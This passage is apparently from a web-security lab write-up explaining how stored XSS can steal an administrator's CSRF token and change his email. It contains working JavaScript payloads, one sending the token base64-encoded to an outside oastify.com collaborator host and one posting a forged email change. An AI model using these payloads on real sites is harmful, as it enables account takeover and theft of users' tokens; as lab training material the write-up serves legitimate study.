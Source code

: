```
<input required type="hidden" name="csrf" value="sYxDTNVeIbHegX5dx5wkxzK0winKWh4F">
```

The idea is to exploit the XSS to obtain the source code of the page of the administrator to obtain his CSRF token and then use it to change his email.

```js
<script>
var req = new XMLHttpRequest();
req.open("GET", "/my-account", false);
req.send();
var response = req.responseText;
var csrf_token = response.match(/name="csrf" value="(.*?)"/)[1];

var image = new Image();
image.src = `https://w635iktpmoscju68l7aw8cwx4oafy8mx.oastify.com/?token=${btoa(csrf_token)};`
</script>
```

When some user open the page is executing the XSS, this XSS contain the following:

We are doing a request via GET syncronous to **/my-account** path and obtain the source code(req.responseText), then we are obtaining only the value of some tag that have the name "csrf". This **obtain two values**, the name and value and only the **value of the value attribute** and since we want to obtain only the value of the csrf and return an array(because found two matches), we obtain the second value with **\[1\]**. For finish, we send the CSRF token via image in base64.

One time obtained the CSRF token we can try to change the email:

```js
<script>
var req = new XMLHttpRequest();
req.open("GET", "/my-account", false);
req.send();
var response = req.responseText;
var csrf_token = response.match(/name="csrf" value="(.*?)"/)[1];
var req2 = new XMLHttpRequest();
req2.open("POST", "/my-account/change-email", true);
req2.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
var data = "email=" + encodeURIComponent("pwned@pwned.com") + "&csrf=" + encodeURIComponent(csrf_token);
req2.send(data);
</script>
```

Now to change the email of the administrator user, we send a request via POST to the endpoint '/my-account/change-email' asyncronous because we don't want to wait nothing. Then add the Content-Type header this is very important for the request work well and the data needed, only the new mail and the CSRF token of the administrator user.

You have to be careful because sometimes if the email exists you can't change to the same email.

With this example you see the powerfull of XSS. The user administrator only open the post and we are able to change his email.

# Reflected XSS with AngularJS sandbox escape without strings

